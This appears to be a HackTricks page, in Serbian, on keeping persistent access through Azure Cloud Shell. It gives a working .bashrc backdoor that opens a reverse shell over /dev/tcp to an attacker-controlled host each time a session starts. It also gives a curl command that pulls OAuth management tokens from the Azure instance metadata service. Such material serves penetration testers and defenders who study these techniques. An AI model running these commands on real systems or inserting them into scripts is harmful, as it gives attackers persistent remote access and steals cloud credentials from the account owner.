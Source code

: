 # Az - Cloud Shell Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell Persistence

Azure Cloud Shell nudi pristup komandnoj liniji za upravljanje Azure resursima sa persistentnim skladištem i automatskom autentifikacijom. Napadači mogu iskoristiti ovo postavljanjem backdoora u persistentni direktorijum:

* **Persistent Storage**: Početni direktorijum Azure Cloud Shell-a je montiran na Azure deljenje datoteka i ostaje netaknut čak i nakon završetka sesije.
* **Startup Scripts**: Datoteke poput .bashrc se automatski izvršavaju na početku svake sesije, omogućavajući persistentno izvršavanje kada se cloud shell pokrene.

Primer backdoora u .bashrc:
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/$CCSERVER/443 0>&1 &)' >> $HOME/.bashrc
```
Ova backdoor može izvršavati komande čak i 5 minuta nakon što korisnik završi sa cloud shell-om.

Dodatno, upitite Azure-ovu metadata uslugu za detalje instance i tokene:
```bash
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -s
```
{{#include ../../../banners/hacktricks-training.md}}
